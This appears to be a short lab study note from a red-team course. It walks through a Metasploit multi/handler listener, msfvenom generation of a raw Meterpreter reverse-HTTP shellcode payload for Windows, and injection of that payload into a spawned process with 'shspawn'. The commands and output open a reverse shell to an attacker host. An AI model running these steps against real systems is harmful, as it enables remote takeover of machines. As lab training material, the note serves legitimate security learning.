 `shinject` & `shspawn` are used to inject raw shell code into processes, `shinject` is used to inject into existing processes & `shspawn` spawns new processes 

create a `msfconsole multi/handler` and utilize the options below in `ATTACKER LINUX
```bash
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.50:8080
```
![[Pasted image 20231129163244.png]]
generate a raw shellcode payload with `msfvenom` using `WSL` on `Attacker Desktop` and saves to `Payloads` Directory
```bash
ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201820 bytes
Saved as: /mnt/c/Payloads/msf_http_x64.bin
```
![[Pasted image 20231129163430.png]]
use `shspawn x64 C:\Payloads\msf_http_x64.bin` to spawn a process and inject into it with the payload
![[Pasted image 20231129163546.png]]
![[Pasted image 20231129163614.png]]
